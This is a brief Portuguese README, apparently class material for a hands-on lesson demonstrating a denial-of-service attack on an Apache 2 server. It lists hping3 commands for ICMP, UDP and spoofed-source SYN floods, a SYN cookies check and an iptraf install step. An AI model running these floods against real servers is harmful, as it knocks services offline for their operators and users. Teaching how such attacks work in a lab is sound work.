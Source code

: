 # DoS na prática

Aula prática demonstrando um ataque DoS em servidor Apache 2.

## Ferramentas utilizadas

### hping3

Instalar hping3 em derivados do Debian:

```bash
# apt install hping3
```

Ver opções:

```bash
# hping3 --help
```

Flood ICMP:

```bash
# hping3 <host> --icmp --flood --data <bytes>
```

Flood UDP:

```bash
# hping3 <host> --udp --flood --data <bytes>
```

SYN Flood em porta específica:

```bash
# hping3 <host> -p <port> -S --flood --rand-source
```

Checar SYN Cookies em uma seção:

```bash
# cat /proc/sys/net/ipv4/tcp_syncookies
```

### iptraf

Instalar iptraf

```bash
# apt install iptraf
```
